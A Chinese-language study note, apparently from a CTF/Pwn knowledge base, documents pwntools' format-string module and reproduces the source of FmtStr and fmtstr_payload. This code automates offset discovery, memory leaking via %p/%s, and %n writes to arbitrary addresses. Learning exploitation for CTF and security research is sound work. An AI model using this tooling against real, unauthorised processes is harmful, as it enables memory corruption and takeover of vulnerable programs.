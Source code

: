 `pwntools` 中定义了 `pwnlib.fmtstr` 的 [[知识点总结/Pwn/读书笔记/格式化字符串]] 漏洞利用工具
该模块中主要定义了一个类 `FmtStr` 和一个函数 `fmtstr_payload`
## `FmtStr` 类
**介绍**
提供自动格式化字符串利用。
它提供一个函数，每次自动化进程与脆弱进程通信时都会调用该函数。
这个函数会接收一个参数，该参数必须包含发送给脆弱进程的有效载荷，并且必须返回进程的返回值。
**参数**
`execute_fmt(function)`：与脆弱进程通信时要调用的函数
`offset(int)`：控制的第一个格式化器偏移量
`padlen(int)`：要在有效负载前添加的 pad 大小
`numbwritten(int)`：已写入的字节数
```
class FmtStr(object):

    def __init__(self, execute_fmt, offset=None, padlen=0, numbwritten=0, badbytes=frozenset()):
        self.execute_fmt = execute_fmt
        self.offset = offset
        self.padlen = padlen
        self.numbwritten = numbwritten
        self.badbytes = badbytes

        if self.offset is None:
            self.offset, self.padlen = self.find_offset()
            log.info("Found format string offset: %d", self.offset)

        self.writes = {}
        self.leaker = MemLeak(self._leaker)

    def leak_stack(self, offset, prefix=b""):
        payload = b"START%%%d$pEND" % offset
        leak = self.execute_fmt(prefix + payload)
        try:
            leak = re.findall(br"START(.*?)END", leak, re.MULTILINE | re.DOTALL)[0]
            leak = int(leak, 16)
        except ValueError:
            leak = 0
        return leak

    def find_offset(self):
        marker = cyclic(20)
        for off in range(1,1000):
            leak = self.leak_stack(off, marker)
            leak = pack(leak)

            pad = cyclic_find(leak[:4])
            if pad >= 0 and pad < 20:
                return off, pad
        else:
            log.error("Could not find offset to format string on stack")
            return None, None

    def _leaker(self, addr):
        # Hack: elfheaders often start at offset 0 in a page,
        # but we often can't leak addresses containing null bytes,
        # and the page below elfheaders is often not mapped.
        # Thus the solution to this problem is to check if the next 3 bytes are
        # "ELF" and if so we lie and leak "\x7f"
        # unless it is leaked otherwise.
        if addr & 0xfff == 0 and self.leaker._leak(addr+1, 3, False) == b"ELF":
            return b"\x7f"

        fmtstr = fit({
          self.padlen: b"START%%%d$sEND" % (self.offset + 16//context.bytes),
          16 + self.padlen: addr
        })

        leak = self.execute_fmt(fmtstr)
        leak = re.findall(br"START(.*)END", leak, re.MULTILINE | re.DOTALL)[0]

        leak += b"\x00"

        return leak

    def execute_writes(self):
        """execute_writes() -> None

        Makes payload and send it to the vulnerable process

        Returns:
            None

        """
        fmtstr = randoms(self.padlen).encode()
        fmtstr += fmtstr_payload(self.offset, self.writes, numbwritten=self.padlen + self.numbwritten, badbytes=self.badbytes, write_size='byte')
        self.execute_fmt(fmtstr)
        self.writes = {}

    def write(self, addr, data):
        self.writes[addr] = data

```
## `fmtstr_payload` 函数
**介绍**
使用给定的参数生成有效载荷
**参数**
`offset(int)`：您控制的第一个格式化器的偏移量
`writes(dict)`：包含 addr 和 value 的 dict ``{addr: value, addr2: value2}``
`numbwritten(int)`：printf 函数已写入的字节数
`write_size(str)`：必须是``字节``、``短``或``整数``。说明是否要逐个字节写入、逐个短字节写入或逐个 int 写入（hhn、hn 或 n）
`overflows(int)`：为减少格式字符串的长度，需要容忍多少额外的溢出（大小为 sz）。
`strategy(str)`：“fast ”或 “small”（默认为 “small”，如果写入次数较多，可使用 “fast”）。
`no_dollars(bool)`：是否使用 $ 符号生成有效载荷的标志。

```
def fmtstr_payload(offset, writes, numbwritten=0, write_size='byte', write_size_max='long', overflows=16, strategy="small", badbytes=frozenset(), offset_bytes=0, no_dollars=False):
    sz = WRITE_SIZE[write_size]
    szmax = WRITE_SIZE[write_size_max]
    all_atoms = make_atoms(writes, sz, szmax, numbwritten, overflows, strategy, badbytes)

    fmt = b""
    for _ in range(1000000):
        data_offset = (offset_bytes + len(fmt)) // context.bytes
        fmt, data = make_payload_dollar(offset + data_offset, all_atoms, numbwritten=numbwritten, no_dollars=no_dollars)
        fmt = fmt + cyclic((-len(fmt)-offset_bytes) % context.bytes)

        if len(fmt) + offset_bytes == data_offset * context.bytes:
            break
    else:
        raise RuntimeError("this is a bug ... format string building did not converge")

    return fmt + data
```